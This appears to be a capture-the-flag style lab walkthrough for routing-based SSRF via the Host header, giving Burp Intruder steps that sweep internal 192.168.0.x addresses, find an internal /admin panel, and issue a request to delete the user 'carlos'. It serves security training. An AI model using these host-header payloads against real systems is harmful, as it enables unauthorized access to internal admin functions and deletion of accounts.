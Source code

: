 ```bash
Host: qc6ewr6ssnh6x2sewzejjqo3buhm5b.oastify.com

To

Host: 192.168.0.§0§

Go to: Payloads
Payload Sets
Payload type: Numbers
Payload Options[Numbers]
From: 0
To: 255
Step: 1
Start attack
There will be one status of "302"
Send to repeater
Send
Response:

HTTP/1.1 302 Found
Location: /admin

Go to: 

GET /admin HTTP/1.1

Response:

<form style='margin-top: 1em' class='login-form' action='/admin/delete' method='POST'>
  <input required type="hidden" name="csrf" value="LHoEesCM8Rns3JNsSL5xLCNOPoQpbsGj">
   <label>Username</label>
  <input required type='text' name='username'>
  <button class='button' type='submit'>Delete user</button>
</form>

Go to:

GET /admin/delete?csrf=LHoEesCM8Rns3JNsSL5xLCNOPoQpbsGj&username=carlos HTTP/1.1

```

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220606002006.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220606002022.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220606003111.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220606003240.png)

![image](https://m0d1cumc0rvu5.github.io/docs/assets/images/20220606003323.png)
